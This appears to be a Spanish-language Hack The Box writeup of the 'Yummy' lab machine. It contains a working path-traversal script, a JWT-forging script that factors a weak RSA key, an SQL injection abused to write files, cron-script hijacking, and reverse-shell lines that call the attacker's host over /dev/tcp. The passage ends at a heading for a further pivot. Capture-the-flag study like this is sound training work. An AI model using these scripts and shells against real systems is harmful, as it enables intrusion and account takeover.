+++
author = "Andrés Del Cerro"
title = "Hack The Box: Yummy Writeup | Hard"
date = "2025-03-19"
description = ""
tags = [
    "HackTheBox",
    "Yummy",
    "Writeup",
    "Cybersecurity",
    "Penetration Testing",
    "CTF",
    "Reverse Shell",
    "Privilege Escalation",
    "RCE",
    "Exploit",
    "Linux",
    "HTTP Enumeration",
    "Local File Inclusion",
    "Directory Path Traversal",
    "Python Scripting",
    "Scripting",
    "Abusing CRON",
    "Information Leakage",
    "Information Disclosure",
    "Analyzing Codebase",
    "RSA Key Exposure",
    "RSA Private Key Creation",
    "Factorizing p and q",
    "Self-Signing JWT Token",
    "SQL Injection",
    "Abusing FILE privilege",
    "Abusing MissConfigured UNIX Permissions",
    "Abusing Mercurial",
    "Abusing hgrc hooks",
    "Abusing wildcard in sudo",
    "Abusing RSync"
]

+++

# Hack The Box: Yummy Writeup

Welcome to my detailed writeup of the hard difficulty machine **"Yummy"** on Hack The Box. This writeup will cover the steps taken to achieve initial foothold and escalation to root.

# TCP Enumeration

```console
$ rustscan -a 10.129.29.218  --ulimit 5000 -g
10.129.29.218 -> [22,80]
```

```console
$ nmap -p22,80 -sCV 10.129.29.218 -oN allPorts
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-07 14:35 CEST
Nmap scan report for 10.129.29.218
Host is up (0.047s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 a2:ed:65:77:e9:c4:2f:13:49:19:b0:b8:09:eb:56:36 (ECDSA)
|_  256 bc:df:25:35:5c:97:24:f2:69:b4:ce:60:17:50:3c:f0 (ED25519)
80/tcp open  http    Caddy httpd
|_http-server-header: Caddy
|_http-title: Did not follow redirect to http://yummy.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.16 seconds
```

# UDP Enumeration

```console
$ sudo nmap --top-ports 1500 -sU --min-rate 5000 -n -Pn 10.129.29.218 -oN allPorts.UDP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-07 14:35 CEST
Nmap scan report for 10.129.29.218
Host is up (0.057s latency).
Not shown: 1494 open|filtered udp ports (no-response)
PORT      STATE  SERVICE
19695/udp closed unknown
21358/udp closed unknown
22215/udp closed unknown
25366/udp closed unknown
25514/udp closed unknown
38412/udp closed unknown

Nmap done: 1 IP address (1 host up) scanned in 0.89 seconds
```

Del escaneo inicial detectamos varias cosas que me llama la atención.
La primera es que no se está utilizando un `apache2` o `nginx` de webserver, si no `caddy`, algo no muy común.

Y la segunda es el dominio `yummy.htb`, lo añadimos al `/etc/hosts`

# HTTP Enumeration
Como no hay mas puntos de entradas, vamos a enumerar el servicio HTTP.

`whatweb` no nos reporta nada interesante.
```console
$ whatweb http://yummy.htb
http://yummy.htb [200 OK] Bootstrap, Country[RESERVED][ZZ], Email[info@yummy.htb], Frame, HTML5, HTTPServer[Caddy], IP[10.129.29.218], Lightbox, Script, Title[Yummy]
```

El sitio web se ve así.


Vemos un formulario que en principio es funcional y se dirige a `/book` por POST


Podemos crearnos una cuenta.


Accedemos a un panel de usuario.


Ahora podemos hacer una reserva con el correo electrónico de nuestra cuenta.


Y lo vemos reflejado en nuestro panel de usuario.


También encontramos algunos posibles usuarios, así que vamos a hacer una pequeña lista de usuarios con los nombres.


```console
$ cat users.txt 
w.white
s.jhonson
w.anderson
walterwhite
walter
wwhite
sarahjhonson
sjhonson
sarah
wanderson
williamanderson
william
```

Descargando una reserva.


Y viendo los metadatos con `exiftool`
```console
$ exiftool Yummy_reservation_20241007_105132.ics 
ExifTool Version Number         : 12.57
File Name                       : Yummy_reservation_20241007_105132.ics
Directory                       : .
File Size                       : 278 bytes
File Modification Date/Time     : 2024:10:07 14:51:31+02:00
File Access Date/Time           : 2024:10:07 14:51:31+02:00
File Inode Change Date/Time     : 2024:10:07 14:51:38+02:00
File Permissions                : -rw-r--r--
File Type                       : ICS
File Type Extension             : ics
MIME Type                       : text/calendar
VCalendar Version               : 2.0
Software                        : ics.py - http://git.io/lLljaA
Description                     : Email: pointed@pointed.com.Number of People: 4.Message: testtest
Date Time Start                 : 2024:10:07 00:00:00Z
Summary                         : test
UID                             : e5af8be6-05e7-443f-ac7a-69cc9ada2e8a@e5af.org
```

Sabemos que este archivo iCalendar se ha generado utilizando `ics-py`.
https://github.com/ics-py/ics-py

# Local File Inclusion / Directory Path Traversal
Interceptando las peticiones de como se descarga el archivo ics, vemos lo siguiente.

Primero se hace un GET a `/reminder/ID` utilizando la cookie de autenticación del usuario.


Si interceptamos la respuesta vemos que el servidor nos establece una cookie de sesión temporal para esta solicitud y nos redirecciona a `/export/ARCHIVO`


Ahora si cambiamos la ruta del archivo a descargar, y establecemos por ejemplo el `/etc/passwd`


Podemos interceptar la respuesta a esta petición y vemos que se acontece el Directory Path Traversal.


# Script It!
Lo malo es que solo se puede acontecer el LFI una vez ya que el servidor espera recibir una cookie de sesión única por petición de descarga, así que vamos a hacer un pequeño script en Python para automatizar el LFI.
```python
#!/usr/bin/python3
import requests

URL = "http://yummy.htb"
X_AUTH_TOKEN = "eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJlbWFpbCI6InBvaW50ZWRAcG9pbnRlZC5jb20iLCJyb2xlIjoiY3VzdG9tZXJfZTA5ZmM2ZjMiLCJpYXQiOjE3MjgyOTc2MjYsImV4cCI6MTcyODMwMTIyNiwiandrIjp7Imt0eSI6IlJTQSIsIm4iOiI3MTc2NTY1ODUyMzQzNjU2NDEwNDYzMzAyNTM2MjkwMjA4ODY3OTA0ODU0NzY3MjY0OTk1MzY5NTQwOTc0NTE4MDU2NDA0MzYzNjk1MzE5MzE2MTIyMzE1Nzg2MDA0MTA4MzUwODkxNzM1MTg1NzE0NDY4NTY2NTkwNzA1MTY0NDM4MDY3OTE2OTg4MDI3MzMzNDgzNjYzMjI4MDk5ODgyMzgwNTcxMzQ5NTUyODk5NjY2OTE1ODY3MjI5NTg2NDgxNDk4MDk4NTA1MDU1OTMwNzAxNzYxNjk1OTQ1MjM5Nzg0NjM5Nzk3MTI1MjM4MDI4MDY2Nzg5OTcwNDM1ODEwNjQxNTMxNDY5NTUwMjE5MDAzMTc3ODExMTg2NjM0MTU0NTgyMDY3MjUxOTY3NDU0MTgyOTM4MjE4MSIsImUiOjY1NTM3fX0.Ax0lxOe3nzqjf_K32oeg7KGj2_wXTS3fX-9OchlK9FhN6uHT3wh8N3NdiXixbea8rKxsS0lt1jWazaLU0XQFDCKSs1uQ2cg3LrpcS0MbTgwa03D6ZWH7QTw4jWd387GRfKQuUNQ2ihbfn7ZDTl7EjS5ZSE4eVSb3oXq4ryLsJdzDovM"
REMINDER_ID = 21

burp={
    "http":"http://localhost:8080",
    "https":"http://localhost:8080"
}

def get_reminder_session():
    cookies={
        "X-AUTH-Token": X_AUTH_TOKEN
    }
    r = requests.get(URL+"/reminder/"+str(REMINDER_ID),cookies=cookies, allow_redirects=False, proxies=burp)
    session_cookie = r.cookies.get("session")
    if not session_cookie:
        print("[+] Session cookie not found, check the reservation ID or AUTH TOKEN")
        exit(1)
    return session_cookie
    
def lfi(file):
    session_cookie = get_reminder_session()
    cookies = {
        "X-AUTH-Token": X_AUTH_TOKEN,
        "session": session_cookie
    }
    url = URL+"/export/"+file
    s = requests.Session()
    req = requests.Request(method='GET', url=url,cookies=cookies)
    prep = req.prepare()
    prep.url = url
    r = s.send(prep,verify=False)
    print(r.text)

if __name__ == "__main__":
    while True:
        file = input("File: ")
        lfi(file)
```

Output de ejemplo.
```console
$ python3 lfi.py                                                                  
File: ../../../../../../etc/passwd                                                        
root:x:0:0:root:/root:/bin/bash                                                           
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin                                           
bin:x:2:2:bin:/bin:/usr/sbin/nologin                                                      
sys:x:3:3:sys:/dev:/usr/sbin/nologin                                                      
sync:x:4:65534:sync:/bin:/bin/sync                                                        
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
...
```

Viendo el `/etc/passwd` detectamos dos usuarios, `dev` y `qa`


Como se está utilizando un servidor web Caddy, busqué donde se almacena el archivo de configuración pero no encontré nada interesante, simplemente hace de reverse proxy.
```console
File: ../../../../../../etc/caddy/Caddyfile
:80 {
    @ip {
        header_regexp Host ^(\d{1,3}\.){3}\d{1,3}$
    }
    redir @ip http://yummy.htb{uri}
    reverse_proxy 127.0.0.1:3000 {
    header_down -Server  
    }
}
```

En el archivo `/etc/crontab` encontramos varias tareas las cuales refieren a scripts personalizados.
```console
File: ../../../../../../etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
# You can also override PATH, but by default, newer versions inherit it from the environment
#PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.daily; }
47 6    * * 7   root    test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.weekly; }
52 6    1 * *   root    test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.monthly; }
#
*/1 * * * * www-data /bin/bash /data/scripts/app_backup.sh
*/15 * * * * mysql /bin/bash /data/scripts/table_cleanup.sh
* * * * * mysql /bin/bash /data/scripts/dbmonitor.sh
```

**app_backup.sh**
```console
File: ../../../../../../../data/scripts/app_backup.sh                                     
#!/bin/bash                                                                               
                                                                                          
cd /var/www                                                                               
/usr/bin/rm backupapp.zip                                                                 
/usr/bin/zip -r backupapp.zip /opt/app
```

**table_cleanup.sh**
```console
File: ../../../../../../../data/scripts/table_cleanup.sh                                  
#!/bin/sh                                                                                 
                                                                                          
/usr/bin/mysql -h localhost -u chef yummy_db -p'3wDo7gSRZIwIHRxZ!' < /data/scripts/sqlappointments.sql
```

**dbmonitor.sh**
```console
File: ../../../../../../../data/scripts/dbmonitor.sh                                                                                         15:38:00 [0/1250]
#!/bin/bash                                                                               
                                                                                                                                        
timestamp=$(/usr/bin/date)                                                                                                              
service=mysql                                                                                                   
response=$(/usr/bin/systemctl is-active mysql)                                            
                                                                                                                
if [ "$response" != 'active' ]; then                                                                                                    
    /usr/bin/echo "{\"status\": \"The database is down\", \"time\": \"$timestamp\"}" > /data/scripts/dbstatus.json                                            
    /usr/bin/echo "$service is down, restarting!!!" | /usr/bin/mail -s "$service is down!!!" root               
    latest_version=$(/usr/bin/ls -1 /data/scripts/fixer-v* 2>/dev/null | /usr/bin/sort -V | /usr/bin/tail -n 1)                         
    /bin/bash "$latest_version"                                                                                                         
else                                                                                      
    if [ -f /data/scripts/dbstatus.json ]; then                                                                                         
        if grep -q "database is down" /data/scripts/dbstatus.json 2>/dev/null; then                                                     
            /usr/bin/echo "The database was down at $timestamp. Sending notification."                                                  
            /usr/bin/echo "$service was down at $timestamp but came back up." | /usr/bin/mail -s "$service was down!" root                                    
            /usr/bin/rm -f /data/scripts/dbstatus.json                                    
        else                      
            /usr/bin/rm -f /data/scripts/dbstatus.json                                                          
            /usr/bin/echo "The automation failed in some way, attempting to fix it."                                                                          
            latest_version=$(/usr/bin/ls -1 /data/scripts/fixer-v* 2>/dev/null | /usr/bin/sort -V | /usr/bin/tail -n 1)                                       
            /bin/bash "$latest_version"                                        
        fi                                                                                                                              
    else                               
        /usr/bin/echo "Response is OK."                                        
    fi                            
fi                                     

[ -f dbstatus.json ] && /usr/bin/rm -f dbstatus.json 
```

Encontramos unas credenciales para acceder a la base de datos, `3wDo7gSRZIwIHRxZ!`

Pero no son válidas ni para `dev` ni para `qa` para acceder por SSH.

Revisando el script SQL no encontramos nada, así que vamos a intentar descargar el archivo ZIP.

# Exploring Application Backup
Vamos a repetir el proceso del LFI para descargarnos el ZIP desde el navegador.


Es un archivo que pesa 6.5MB.
```console
$ ls -la --human-readable backupapp.zip 
-rw-r--r-- 1 pointedsec pointedsec 6,5M oct  7 15:46 backupapp.zip
```

Y parece que tenemos una aplicación hecha en Flask.
```console
$ ls
app.py  config  middleware  __pycache__  static  templates
```

Vemos las mismas credenciales que hemos visto antes.


Vemos una ruta `/admindashboard` que hace uso de una función `validate_login()` para comprobar si nuestro usuario es administrador.


La función `validate_login()`es la siguiente.
```python
def validate_login():
    try:
        (email, current_role), status_code = verify_token()
        if email and status_code == 200 and current_role == "administrator":
            return current_role
        elif email and status_code == 200:
            return email
        else:
            raise Exception("Invalid token")
    except Exception as e:
        return None
```

Lo que hace es verificar nuestro token JWT y ver si tenemos el rol de `administrator`

Nosotros no tenemos ese rol, obviamente.


# Obtaining `administrator` role -> RSA Key Exposure
Para poder modificar este JWT y generar nuestro propio JWT hay que entender como funcionan los token JWT.

Estos tokens son ampliamente utilizados en aplicaciones web para autenticación, autorización y transmisión de información de manera segura.

### Estructura de un JWT

Un JWT está compuesto por tres partes separadas por puntos (`.`):

1. **Header (Encabezado)**
2. **Payload (Carga útil)**
3. **Signature (Firma)**

#### 1. Header (Encabezado)

El encabezado típicamente consta de dos partes:

- **"alg" (algoritmo):** Indica el algoritmo de firma que se está utilizando, como `HS256` (HMAC con SHA-256) o `RS256` (RSA con SHA-256).
- **"typ" (tipo):** Generalmente es `"JWT"`.

Ejemplo:
```json
{ "alg": "HS256", "typ": "JWT" }
```

Este JSON se codifica en Base64Url para formar la primera parte del token.

#### 2. Payload (Carga útil)

El payload contiene las **reclamaciones (claims)**, que son declaraciones sobre una entidad (generalmente, el usuario) y metadatos adicionales. Hay tres tipos de reclamaciones:

- **Reclamaciones registradas:** Son un conjunto de reclamaciones predefinidas que no son obligatorias pero recomendadas, como `iss` (emisor), `exp` (expiración), `sub` (sujeto), `aud` (audiencia), etc.
- **Reclamaciones públicas:** Reclamaciones definidas de manera pública para evitar colisiones de nombres.
- **Reclamaciones privadas:** Reclamaciones personalizadas acordadas entre las partes que usan el JWT.

Este JSON también se codifica en Base64Url para formar la segunda parte del token.

#### 3. Signature (Firma)

Para crear la firma, se toma el encabezado codificado, el payload codificado, se les concatena con un punto (`.`) y se firma usando el algoritmo especificado en el encabezado junto con una clave secreta o clave privada.

Ahora, hay que entender en que punto estamos.

El payload del token incluye el rol del usuario (`role`) y la clave pública (`n` y `e`) del par RSA.


**Aprovechar la clave RSA:**

- El script `signature.py` genera una clave RSA, pero es importante entender si el mismo par de claves se utiliza en producción o si tienes acceso a ellas para manipular el token.
- Si el par de claves generadas por el script es el mismo que se utiliza en el servidor, puedes modificar el rol en el JWT y firmarlo de nuevo con la clave privada.

Suponiendo que se utiliza el mismo par de claves generadas, podemos aprovechar que tenemos el valor de `n` y de `e` para generar la clave privada utilizada para nuestro token JWT, y de esta forma modificar el token y volverlo a firmar con la clave privada lo que haría que sea un token JWT válido para el servidor.

Después de un buen rato utilizando ChatGPT y un par de pistas...
```python
import base64                                                                                                                                                                                                                                                                                                                
import json                                                                                                                                                                                                                                                                                                                  
import jwt                                                                                                                                                                                                                                                                                                                   
from Crypto.PublicKey import RSA                                                                                                                                                                                                                                                                                             
from cryptography.hazmat.backends import default_backend                                                                                                                                                                                                                                                                     
from cryptography.hazmat.primitives import serialization                                                                                                                                                                                                                                                                     
import sympy                                                                                                                                                                                                                                                                                                                 
from datetime import datetime, timedelta, timezone                                                                                                                                                                                                                                                                           
                                                                                                                                                                                                                                                                                                                             
# Tu token original                                                                                                                                                                                                                                                                                                          
token = ""  # Reemplaza con tu token real                                                                                                          
                                                                                                                                                                                                                                                                                                                             
def add_padding(b64_str):                                                                                                                                                                                                                                                                                                    
    while len(b64_str) % 4 != 0:                                                                                                                                                                                                                                                                                             
        b64_str += '='                                                                                                                                                                                                                                                                                                       
    return b64_str                                                                                                                                                                                                                                                                                                           
                                                                                                                                                                                                                                                                                                                             
def base64url_decode(input_str):                                                                                                                                                                                                                                                                                             
    input_str = add_padding(input_str)                                                                                                                                                                                                                                                                                       
    input_str = input_str.replace('-', '+').replace('_', '/')                                                                                                                                                                                                                                                                
    return base64.b64decode(input_str)                                                                                                                                                                                                                                                                                       
                                                                                                                                                                                                                                                                                                                             
# Decodificar el payload del token                                                                                                                                                                                                                                                                                           
payload_encoded = token.split(".")[1]                                                                                                                                                                                                                                                                                        
decoded_payload = json.loads(base64url_decode(payload_encoded).decode())                                                                                                                                                                                                                                                     
                                                                                                                                        
# Extraer 'n' de JWK y factorizar para obtener 'p' y 'q'                                                                                
n = int(decoded_payload["jwk"]['n'])                                                                                                    
p, q = list(sympy.factorint(n).keys())                                                                                                  
e = 65537                                                                                                                               
phi_n = (p - 1) * (q - 1)                                                                                                               
d = pow(e, -1, phi_n)                                                                                                                   
key_data = {'n': n, 'e': e, 'd': d, 'p': p, 'q': q}                                                                                     
                                                                                                                                        
# Construcción de la clave RSA usando PyCryptodome                                                                                      
key = RSA.construct((key_data['n'], key_data['e'], key_data['d'], key_data['p'], key_data['q']))                                        
private_key_bytes = key.export_key()                                                                                                    
                                                                                                                                        
# Cargar la clave privada usando cryptography                                                                                           
private_key = serialization.load_pem_private_key(                                                                                       
    private_key_bytes,                                                                                                                  
    password=None,                                                                                                                      
    backend=default_backend()                                                                                                           
)                                                                                                                                       
public_key = private_key.public_key()                                                                                                   
                                                                                                                                        
# Decodificar el token original sin verificar la firma ni la expiración                                                                 
try:                                                                                                                                    
    original_data = jwt.decode(                                                                                                         
        token,                                                                                                                          
        public_key,                                                                                                                     
        algorithms=["RS256"],          
        options={"verify_signature": False, "verify_exp": False}               
    )                                  
except jwt.ExpiredSignatureError:      
    # Aunque hemos desactivado la verificación de expiración, es bueno manejar posibles excepciones                                                           
    original_data = jwt.decode(        
        token,                                 
        public_key,                            
        algorithms=["RS256"],                  
        options={"verify_signature": False, "verify_exp": False}
        )                                                                          

# Modificar el rol a "administrator"                                           
original_data["role"] = "administrator"                                        

# Actualizar 'iat' y 'exp'                                                     
original_data["iat"] = datetime.now(timezone.utc)                              
original_data["exp"] = datetime.now(timezone.utc) + timedelta(hours=1)  # Token válido por 1 hora                                                             

# Opcional: Actualizar 'jwk' si es necesario                                   
original_data["jwk"] = {                                                       
    'kty': 'RSA',                                                              
    'n': str(key_data['n']),                                                   
    'e': str(key_data['e'])                                                    
}                                                                              

# Serializar la clave privada en formato PEM                                   
private_key_pem = private_key.private_bytes(                                   
    encoding=serialization.Encoding.PEM,                                       
    format=serialization.PrivateFormat.TraditionalOpenSSL,                     
    encryption_algorithm=serialization.NoEncryption()                          
)                                                                              

# Generar el nuevo token JWT con el rol modificado                             
new_token = jwt.encode(original_data, private_key_pem, algorithm="RS256")                                                                                     
print("Nuevo JWT con rol administrador:", new_token)                           

# Verificar el nuevo token (opcional)                                          
decoded_new_token = jwt.decode(new_token, public_key, algorithms=["RS256"])                                                                                   
print("Contenido del nuevo JWT:", decoded_new_token) 
```

Ahora si intentamos acceder al panel administrativo con un token que no es válido, vemos que se nos redirecciona a `/login`


Si iniciamos sesión y copiamos nuestro token al script.


Y ejecutamos el script, vemos que nos devuelve otro token distinto.
```console
$ python3 gentoken.py 
Nuevo JWT con rol administrador: eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJlbWFpbCI6InBvaW50ZWRAcG9pbnRlZC5jb20iLCJyb2xlIjoiYWRtaW5pc3RyYXRvciIsImlhdCI6MTcyODMwNDM4OSwiZXhwIjoxNzI4MzA3OTg5LCJqd2siOnsia3R5IjoiUlNBIiwibiI6IjcxNzY1NjU4NTIzNDM2NTY0MTA0NjMzMDI1MzYyOTAyMDg4Njc5MDQ4NTQ3NjcyNjQ5OTUzNjk1NDA5NzQ1MTgwNTY0MDQzNjM2OTUzMTkzMTYxMjIzMTU3ODYwMDQxMDgzNTA4OTE3MzUxODU3MTQ0Njg1NjY1OTA3MDUxNjQ0MzgwNjc5MTY5ODgwMjczMzM0ODM2NjMyMjgwOTk4ODIzODA1NzEzNDk1NTI4OTk2NjY5MTU4NjcyMjk1ODY0ODE0OTgwOTg1MDUwNTU5MzA3MDE3NjE2OTU5NDUyMzk3ODQ2Mzk3OTcxMjUyMzgwMjgwNjY3ODk5NzA0MzU4MTA2NDE1MzE0Njk1NTAyMTkwMDMxNzc4MTExODY2MzQxNTQ1ODIwNjcyNTE5Njc0NTQxODI5MzgyMTgxIiwiZSI6IjY1NTM3In19.BBNhJ_EQR1jXteQFpHvGEZQGP7Gqss7_GeYOnLKaU5XCESPANcNsnFrTRMs3mOzb432lP5Q_l_sJoOLZ0eE25EVSXK_iU02-yMviiK-REzmvVc4j0xHsmXX1mdaDCn9AoXn-5TKJzirvzm2ykNYqM27beHtS6BYXvQNrItlBl0VM0hg
Contenido del nuevo JWT: {'email': 'pointed@pointed.com', 'role': 'administrator', 'iat': 1728304389, 'exp': 1728307989, 'jwk': {'kty': 'RSA', 'n': '71765658523436564104633025362902088679048547672649953695409745180564043636953193161223157860041083508917351857144685665907051644380679169880273334836632280998823805713495528996669158672295864814980985050559307017616959452397846397971252380280667899704358106415314695502190031778111866341545820672519674541829382181', 'e': '65537'}}
```

Este token ha hecho todo el proceso mencionado anteriormente, por lo cual supuestamente es un token JWT válido firmado por la clave privada que está utilizando el servidor pero con el rol de `administrator`

En [jwt.io](https://jwt.io/) lo podemos comprobar también.


Ahora si utilizamos este token para acceder al panel administrativo, nos devuelve un 200 OK.


**IMPORTANTE**
Estuve un rato volviendome loco pensando en porque no funcionaba la firma del nuevo token JWT si lógicamente todo estaba bien, hasta que me di cuenta de que la hora de mi sistema y la de la máquina víctima no estaban sincronizadas, y estas deben de estarlo para poder crear el token válido por los valores `iat` y `exp`

Para ello podemos utilizar el one-liner que nos recomienda el repositorio de [htpdate](https://github.com/twekkel/htpdate)
```console
sudo date -s "`curl --head -s http://yummy.htb | grep -i "Date: " | cut -d' ' -f2-`"
```

Y ahora generando otra vez el JWT en principio debería de ser válido.

Y ya modificando la cookie `X-AUTH-Token` por la generada, podemos acceder por el navegador al panel administrativo mas cómodamente.


# Abusing FILE privilege -> Foothold
En este punto no se bien que hacer ya que me he ido dejando llevar por la intuición, así que vamos a revisar otra vez el código para ver que funciones tiene el panel administrativo.



Revisando el código parece que se acontece una Inyección SQL mediante el parámetro `o` ya que de ninguna manera está sanitizado el input del usuario.
```python
search_query = request.args.get('s', '')

                # added option to order the reservations
                order_query = request.args.get('o', '')

                sql = f"SELECT * FROM appointments WHERE appointment_email LIKE %s order by appointment_date {order_query}"
                cursor.execute(sql, ('%' + search_query + '%',))
```

Vemos en el código que se utiliza `cursor.execute` y de forma interna se sanitiza el input del parámetro `s` pero nunca se sanitiza el input del parámetro `o`

Vamos a confirmar la inyección utilizando `sqlmap`

La consulta por detrás se ve mas o menos así 
```sql
SELECT * FROM appointments WHERE appointment_email LIKE '%loquesea%' order by appointment_date ASC
```

Por lo cual tiene sentido que si `s` está vacío, se nos devuelva todos los valores, ya que la consulta sería `LIKE '%%'`

Pero a través del parámetro `o` podemos modificar el valor del `order by` y podríamos hacer algo así (por ejemplo).
```sql
SELECT * FROM appointments WHERE appointment_email LIKE '%loquesea%' order by appointment_date ASC; select * from users;
```

Vemos que podemos ver los errores MySQL.


Si hacemos un `select "prueba" into outfile '/tmp/prueba.txt'` parece que no pasa nada, esto es buena señal.


Si lo intentamos hacer otra vez nos dice que este archivo ya existe.


A través del LFI por alguna razón no puedo leer el archivo.


Esto significa que el usuario que está ejecutando las consultas SQL por detrás tiene el nodo `FILE` activado, por lo cual tiene permisos para escribir archivos.

## Abusing `dbmonitor.sh` script
Analizando este script, podemos ver una parte interesante.
```bash
if [ -f /data/scripts/dbstatus.json ]; then
        if grep -q "database is down" /data/scripts/dbstatus.json 2>/dev/null; then
            /usr/bin/echo "The database was down at $timestamp. Sending notification."
            /usr/bin/echo "$service was down at $timestamp but came back up." | /usr/bin/mail -s "$service was down!" root
            /usr/bin/rm -f /data/scripts/dbstatus.json
        else
            /usr/bin/rm -f /data/scripts/dbstatus.json
            /usr/bin/echo "The automation failed in some way, attempting to fix it."
            latest_version=$(/usr/bin/ls -1 /data/scripts/fixer-v* 2>/dev/null | /usr/bin/sort -V | /usr/bin/tail -n 1)
            /bin/bash "$latest_version"
        fi
    else
        /usr/bin/echo "Response is OK."
    fi
```

Si el archivo `/data/scripts/dbstatus.json` existe, y no contiene la cadena `database is down`se elimina el archivo `dbstatus.json` y hace una cosa de la cual nos podemos aprovechar.
Ejecuta a nivel de sistema este comando.
```console
/usr/bin/ls -1 /data/scripts/fixer-v* 2>/dev/null | /usr/bin/sort -V | /usr/bin/tail -n 1
```

Y luego el resultado, lo ejecuta por bash.

Por lo cual podríamos crear nosotros un archivo `dbstatus.json` con lo que sea para que cuando este script se ejecute salte directamente a la parte de código vulnerable que nos interesa.

Y también antes de eso, podemos crear un archivo `/data/scripts/fixer-v_____`  para que ordenado, salga como primer resultado y se ejecute a nivel de sistema, en este archivo podemos incluir una revshell.

Entonces, creamos nuestro archivo `rev.sh`
```console
$ cat rev.sh 
#!/bin/bash

bash -c "bash -i >& /dev/tcp/10.10.16.9/443 0>&1"
```

Lo servimos por el puerto 8081.
```console
$ python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
```

Creamos el archivo el cual vamos a utilizar para mandarnos la revshell, simplemente esto ejecutará a nivel de sistema una petición para conseguir nuestro archivo de `rev.sh` y lo ejecutará a nivel de sistema.


Ahora creamos el archivo `dbstatus.json` con lo que sea.


Nos ponemos en escucha con `pwncat-cs` por el puerto 443.
```console
$ sudo pwncat-cs -lp 443
```

Y esperando un poco ganamos acceso al sistema como el usuario `mysql`
```console
$ sudo pwncat-cs -lp 443
/usr/local/lib/python3.11/dist-packages/paramiko/transport.py:178: CryptographyDeprecationWarning: Blowfish has been deprecated and will be removed in a future release
  'class': algorithms.Blowfish,
[15:24:21] Welcome to pwncat 🐈!                                                                                                               __main__.py:164
[15:26:00] received connection from 10.129.29.218:57498                                                                                             bind.py:84
[15:26:02] 10.129.29.218:57498: registered new host w/ db                                                                                       manager.py:957
(local) pwncat$                                                                                                                                               
(remote) mysql@yummy:/var/spool/cron$ id
uid=110(mysql) gid=110(mysql) groups=110(mysql)
(remote) mysql@yummy:/var/spool/cron$
```

# Abusing CRON -> User Pivoting 1
Me interesa escalar privilegios a `www-data` para ver si tenemos algún privilegio adicional y sobre todo porque no podemos acceder a los archivos en `/var/www/qatesting.
```console
(remote) mysql@yummy:/var/www$ cd app-qatesting/
bash: cd: app-qatesting/: Permission denied
```

Viendo los permisos del directorio `/data/scripts`
```console
(remote) mysql@yummy:/data/scripts$ ls -la
total 36
drwxrwxrwx 2 root  root  4096 Oct  7 13:26 .
drwxr-xr-x 3 root  root  4096 Sep 30 08:16 ..
-rw-r--r-- 1 root  root    90 Sep 26 15:31 app_backup.sh
-rw-r--r-- 1 root  root  1336 Sep 26 15:31 dbmonitor.sh
-rw-r----- 1 mysql mysql   33 Oct  7 13:25 fixer-v___
-rw-r----- 1 root  root    60 Oct  7 13:25 fixer-v1.0.1.sh
-rw-r--r-- 1 root  root  5570 Sep 26 15:31 sqlappointments.sql
-rw-r--r-- 1 root  root   114 Sep 26 15:31 table_cleanup.sh
```

Vemos que tenemos permisos de escritura en este directorio, por lo cual no podemos modificar por ejemplo `app_backup.sh` ya que no tenemos permisos para ello, pero podemos renombrarlo y crear nuestro propio `app_backup.sh` que se ejecutará como el usuario `www-data` cuando se ejecute la tarea CRON.

```console
(remote) mysql@yummy:/data/scripts$ mv app_backup.sh app_backup.sh.old
(remote) mysql@yummy:/data/scripts$ nano app_backup.sh
Unable to create directory /nonexistent/.local/share/nano/: No such file or directory
It is required for saving/loading search history or cursor positions.

(remote) mysql@yummy:/data/scripts$ cat app_backup.sh
#!/bin/bash

bash -c "bash -i >& /dev/tcp/10.10.16.9/443 0>&1"
```

Este proceso hay que hacerlo muy rápido, pero si anteriormente estábamos en escucha con `pwncat-cs` por el puerto 443.
```console
$ sudo pwncat-cs -lp 443
/usr/local/lib/python3.11/dist-packages/paramiko/transport.py:178: CryptographyDeprecationWarning: Blowfish has been deprecated and will be removed in a future release
  'class': algorithms.Blowfish,
[15:29:55] Welcome to pwncat 🐈!                                                                                                               __main__.py:164
[15:32:59] received connection from 10.129.29.218:46104                                                                                             bind.py:84
[15:33:01] 10.129.29.218:46104: registered new host w/ db                                                                                       manager.py:957
(local) pwncat$                                                                                                                                               
(remote) www-data@yummy:/root$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

# Information Disclosure via Mercurial `.hg` directory ->  User Pivoting 2
